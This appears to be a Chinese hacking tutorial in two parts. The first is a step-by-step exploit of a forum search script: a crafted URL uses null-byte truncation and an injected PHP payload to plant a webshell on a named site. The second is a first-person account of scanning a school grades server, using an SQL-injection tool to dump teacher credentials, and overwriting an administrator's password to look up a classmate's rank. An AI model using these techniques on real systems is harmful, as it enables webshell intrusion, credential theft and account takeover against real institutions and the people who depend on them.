关键代码是 `$cachefile=rawurldecode($cachefile)`，此处 `cachefile` 变量通过 `rawurldecode` 函数进行转换，在后面的利用中会提到。另一关键代码如下：

```php
if($cachefile)$cachefile=$keyword.$sch_time.$sch_area;
$method($seekfid, ...);
//echo $page;echo '<k1>'; $lastpage;echo '<br>';
if(!file_exists('userdata/cache/'.$cachefile.'.txt') || $page<=$lastpage || $step)
...
if(!$step){
  deldir('userdata/cache/');
  /* 搜索日志 */
}
```

```php
chr(46).chr(47).chr(46).chr(46).chr(47)...
chr(98).chr(98).chr(115).chr(100).chr(97).chr(116)...
```

这些代码我们保存为 php 文件，然后解释出来就会看到了，如图 5。


我简单讲解一下，假设系统没有检查这个 `cachefile` 变量的话，它就等于我们提交的关键字。并且此处 if 语句不完整，可手动提交变量，从而把搜索到的文件写到任意文件名去。

另外再看看 `schall.php` 文件最后一句代码，关键代码如下：

```php
if($treadinfo){
  writeover('./userdata/cache/'.$cachefile.'.txt',$treadinfo,'ab');
}
```

这里假设提交变量 `treadinfo`，就会把内容写到 `./userdata/cache/$cachefile.txt`，而该文件名可控，因此可以手工提交。


“./”表示当前目录，“../”表示向前跳目录。通过双用版管理器可把要生成的目录和文件名转换为代码，在浏览器中构造路径并提交，如图 6。改写后的完整利用代码如下：

```text
http://www.redyou.net/bbs/search.php?
keyword=...&cachefile=yy.php%2500&treadinfo=<?puts(fopen(chr(...),chr(...));...?>
```

最后直接把完整代码提交到浏览器中，会在 `/userdata/cache` 下生成 `yy.php`，再利用之前工具获得 webshell，如图 7。

### 三、手工测试

菜鸟总要学着长大。不要总依赖别人写的工具，先手工利用提交语句。点击属性后可得到代码如下：

```text
http://www.redyou.net/bbs/search.php?
keyword=...&cachefile=shell.php%2500&treadinfo=<?puts(fopen(chr(...),chr(...));...?>
```

这就是利用代码。`keyword` 为可控关键字，前面 `%2500` 经过 `rawurldecode($cachefile)` 后变为 `%00` 截断 `.txt`，再加上 `treadinfo` 代码即可控制 webshell 生成目录与文件名。


此时还未真正获得 webshell。需要在浏览器执行 `userdata/cache/yy.php`，相当于工具中的“获得 webshell”按钮，随后会在 `bbsdata` 目录下生成 `kk.php`，如图 8。


结束了，文中如有错误欢迎指正。本文涉及相关工具与脚本文件若干。

## 利用SQL注入

#### 窃取领导账号

高三的期中考试终于考完了，看着公布栏上公布着推荐清华生的名额，突然发现一个熟悉的名字：崔XX。这人平时都考两百多名，怎么她也能混到清华的推荐生（我们学校只有两个名额）？且听说我们学校对年级名次的保密措施相当严格，心生疑惑，决定对她的名次进行查询。

学校采用由老师将本班的学生成绩登记到专门服务器的网站上，再由教导处以上权限的老师用户将年级名次统计出来发给各科老师。学校服务器操作系统采用的是 Win2000+SP4，成绩网站是由一个叫蓝易思的公司做的，网站打开如图1所示。


图1


图3

来到学生机房，用 X-SCAN 扫了一下这台服务器（仅仅开放了 80、1433 两个端口，而且 sa 密码也不为空），接着用 HDSI 3.0 对这个网站进行了扫描，结果如图2。


图2

没有找到注入点，百无聊赖中浏览到“学生在线”的“虚拟社区”中，看到如下地址：http://xxx.xxx.xxx.xxx/eis/DUMMY_COMM/list.asp?f_id=110。好熟悉的格式啊，立刻用 HDSI 进行测试，结果如图3。立即猜解表名内的数据，可惜没看到一个关于老师账号的表名……

既然使用的是 SQL 数据库，那么肯定会有 asp 文件要用“select xxx from xxx”来调用数据库中的老师数据，于是找到网站的绝对路径。经过仔细的查找，终于找到了，如图4。


图4

在 login.asp 中看到一行内容（选中区域）`select * from eis_mana_log where (nick='"&nick&"')`，eis_mana_log 引起了我的注意。在刚刚猜解的表名中并没有这个表名，立刻用 HDSI 进行猜解，得到老师的用户名和密码，如图5。看到那个 id=292 的用户了吗？刘XX，他就是我们学校的中层领导干部哦！他肯定是有查分权限的。经过反复测试，得出使用 HDSI 猜解出的密码是经过加密的，试验得出的“烨煜”，实际密码应为 11。接着我用 HDSI 中的高级命令将 id=292 的密码换成“烨煜”……